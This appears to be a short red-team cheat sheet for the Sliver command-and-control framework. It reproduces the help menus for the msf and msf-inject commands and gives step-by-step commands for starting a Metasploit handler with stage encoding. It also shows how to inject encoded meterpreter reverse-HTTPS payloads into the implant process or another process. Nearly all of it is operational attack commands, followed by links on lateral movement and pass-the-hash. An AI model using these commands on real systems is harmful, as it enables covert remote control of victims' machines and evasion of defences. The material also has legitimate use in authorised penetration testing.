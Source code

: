# Sliver

## 01 - Help Menu

```
sliver (IMPLANT_NAME) > msf -h

Command: msf [--lhost] <options>
About: Execute a metasploit payload in the current process.

Usage:
======
  msf [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -t, --timeout    int       command timeout in seconds (default: 60)

sliver (IMPLANT_NAME) > msf-inject -h

Command: inject [--pid] [--lhost] <options>
About: Execute a metasploit payload in a remote process.

Usage:
======
  msf-inject [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -p, --pid        int       pid to inject into (default: -1)
  -t, --timeout    int       command timeout in seconds (default: 60)
```

## 02 - Usage

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload <payload>

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder <x86/shikata_ga_nai | x64/xor_dynamic>

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run
```

Inject meterpreter session directly in the same beacon process.

```
sliver (IMPLANT_NAME) > msf [-e <x86/shikata_ga_nai | x64/xor_dynamic>] -i <iterations> -L <IP> -l <PORT> -m <payload>
```

Inject meterpreter session through another process.

```
sliver (IMPLANT_NAME) > msf-inject -p <pid> -e [x86/shikata_ga_nai | x64/xor_dynamic] -i <iterations> -L <IP> -l <PORT> -m <payload>
```

---
## References

- [Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

- [Hacker Cool: Shellcode Injection with Metasploit](https://www.hackercoolmagazine.com/metasploit-shellcode-injection-module/)

- [Hacking Articles: Metasploit for Pentester - Inject Payload into Executable](https://www.hackingarticles.in/metasploit-for-pentester-inject-payload-into-executable/)

- [Rapid7: Metasploit Framework - Build .NET Code](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/powershell/build_net_code.md)

- [CrowdStrike: Getting the bacon from Cobalt Strike Beacon](https://www.crowdstrike.com/blog/getting-the-bacon-from-cobalt-strike-beacon/)

- [Infosecmatter: RCE on Windows From Linux Part 1 Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

- [CertCube Pass the Hash in Windows 10](https://blog.certcube.com/pass-the-hash-in-windows-10/)